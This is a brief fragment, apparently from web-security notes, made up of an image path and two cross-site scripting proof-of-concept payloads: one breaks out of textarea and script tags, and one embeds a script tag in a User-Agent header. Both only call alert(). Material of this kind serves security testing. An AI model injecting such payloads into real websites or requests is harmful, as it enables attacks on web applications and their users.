 ____

```html
</textarea></script>"/><script>alert()</script>
```
UserAgent

```bash
Mozilla/5.0 <script>alert()</script>(Macintosh; Intel Mac OS X 10_15_7)
```